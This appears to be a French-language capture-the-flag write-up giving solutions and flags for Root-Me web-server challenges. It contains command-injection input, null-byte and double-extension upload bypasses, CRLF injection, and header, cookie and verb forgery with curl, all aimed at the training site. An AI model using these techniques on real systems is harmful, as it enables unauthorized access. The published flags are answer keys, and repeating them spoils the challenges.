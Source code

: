 # web-server

## HTML - Code source
hint: inspecter élément
- nZ^&@q5&sjJHev0 

## HTTP - Open redirect

solve:  curl -G http://challenge01.root-me.org/web-serveur/ch52/ -d "url=https://google.fr&h=0edf27c83d4aa4699c0625d27be0e371" -o solve.txt 

- e6f8a530811d5a479812d7b82fc1a5c5 


## HTTP - User-agent


solve: curl -H "User-Agent: admin" http://challenge01.root-me.org/web-serveur/ch2/

- rr$Li9%L34qd1AAe27


## Mot de passe faible

solve: admin/admin

- admin

## PHP - Injection de commande

solve: | cat index.php 

- S3rv1ceP1n9Sup3rS3cure

## Fichier de sauvegarde

solve: index.php~ 

- OCCY9AcNm1tj

## HTTP - Directory indexing

hint: admin/backup/admin.txt

- LINUX

## HTTP - Headers
hint: python headers.py ou curl --header "Header-RootMe-Admin:admin" http://challenge01.root-me.org/web-serveur/ch5/

- HeadersMayBeUseful

## HTTP - Post
hint: supprimer le js et modifier le score

- H7tp_h4s_N0_s3Cr37S_F0r_y0U

## HTTP - Improper redirect
hint: curl http://challenge01.root-me.org/web-serveur/ch32/

- ExecutionAfterRedirectIsBad

## HTTP - Verb tampering

hint: curl -X PUT http://challenge01.root-me.org/web-serveur/ch8/

- a23e$dme96d3saez$$prap

## Install files

hint: phpbb/install/install.php 

- karambar

## File upload - Double extensions
hint: poster le fichier upload.php et le changer en upload.php.png 

- Gg9LRz-hWSxqqUKd77-_q-6G8

## File upload - Type MIME
hint: poster le fichier upload.php et le changer en upload.php%00.png 

## HTTP - Cookies

hint: utiliser curl 

- curl http://challenge01.root-me.org/web-serveur/ch7/ --cookie "ch7=admin"  | cut -d '<' -f2  | cut -d ':' -f2

- ml-SYMPA 

## File upload - Null byte
- utiliser le fichier nullbyte.php%00.png 
- YPNchi2NmTwygr2dgCCF 

## CRLF

- ?username=admin authenticated.%0D%0Aa&password=admin

- rFSP&G0p&5uAg1%